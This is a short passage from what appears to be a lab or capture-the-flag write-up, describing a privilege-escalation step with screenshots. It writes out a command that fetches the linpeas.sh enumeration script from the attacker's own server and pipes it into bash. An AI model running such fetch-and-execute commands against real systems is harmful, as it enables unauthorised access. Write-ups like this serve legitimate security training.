 ![alt text](images/image-13.png)

---

## Privilege Escalation

To escalate our privileges we can try at first, using linpeas.sh or try searching for executables with sudo access by the user.

Let's fetch linpeas.sh from our Python server and execute it.
`curl http://10.10.14.48:8000/linpeas.sh | bash`

The tool found an executable binary with root permissions.

![alt text](images/image-15.png)
